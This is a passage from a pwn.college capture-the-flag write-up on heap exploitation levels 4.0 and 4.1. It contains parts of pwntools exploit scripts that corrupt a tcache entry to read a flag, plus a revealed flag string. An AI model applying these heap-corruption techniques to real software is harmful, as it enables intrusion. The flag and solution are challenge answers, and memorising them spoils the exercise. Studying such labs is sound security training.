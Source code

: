 ```python

    malloc(542)
    free()
    scanf(b"A" * 8)
    free()
    read_flag()
    puts()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{oZ6_TOkCX4vXbuU0gTGgGHmYWRJ.01N3MDL5cTNxgzW}`]

# Level 4.1

## Information

- Category: Pwn

## Description

> Corrupt the TCACHE entry_struct value to get the flag when multiple allocations occur.

## Write-up

参见 [Level 4.0](#level-40)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level4.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
```